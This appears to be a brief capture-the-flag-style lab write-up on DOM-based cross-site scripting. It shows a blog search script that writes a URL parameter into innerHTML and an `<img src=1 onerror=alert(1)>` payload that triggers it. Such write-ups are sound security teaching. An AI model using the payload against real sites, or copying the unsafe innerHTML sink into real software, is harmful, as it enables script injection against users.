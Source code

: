 # XSS Lab 4: innerHTML sink

## Analysis
Vulnerability location: blog search

Script:
```
<script>
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
</script>
```

If you pass `<img src=1>` there will be an error image that loads in the site.

We can then change this to `<img src=1 onerror=alert(1)>`